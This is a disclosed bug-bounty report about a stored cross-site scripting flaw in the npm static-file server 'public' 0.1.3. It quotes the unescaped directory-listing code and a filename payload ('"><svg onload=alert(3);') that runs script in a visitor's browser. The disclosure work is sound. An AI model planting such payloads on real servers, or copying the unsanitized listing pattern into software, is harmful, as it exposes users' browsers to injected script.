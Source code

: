# [public] Stored XSS in the filename when directories listing

## Report Details
- **Report ID**: 329950
- **URL**: https://hackerone.com/reports/329950
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2018-03-26T10:40:55.911Z
- **Disclosed**: 2018-06-12T08:04:30.316Z

## Reporter
- **Username**: tungpun
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a Stored XSS issue in module **public**
It allows executing malicious javascript code in the user's browser.

# Module
**module name:** public
**version:** 0.1.3
**npm page:** https://www.npmjs.com/package/public

# Module Description
Run static file hosting server with specified public dir & port. Support a "direcotry index" like Apache httpd.

# Vulnerability
## Vulnerability Description
This issue happens because of the lack of output sanitization here:

```
files.forEach(function(file) {
    list.push('<li><a href="', path.join(base, file),'">', file, '</a></li>');
});
```   

# Steps To Reproduce:
* Install the module

`$ npm i public`

* Run

`$ ./node_modules/public/bin/public ./ 6060`

* In the target directory, create a file with name `"><svg onload=alert(3);`

`bash$ touch '"><svg onload=alert(3);'`

* In the browser, go to http://127.0.0.1:6060/, the XSS popup will fire.

{F278745}

# Supporting Material/References:
* macOS High Sierra 10.13.3
* node v8.10.0
* npm 5.6.0
* Chrome Version 65.0.3325.181 (Official Build) (64-bit)

# Wrap up
* I contacted the maintainer to let them know: N
* I opened an issue in the related repository: N

# Impact
It allows executing malicious javascript code in the user's browser

## Impact

It allows executing malicious javascript code in the user's browser.

## Attachments
- public.png
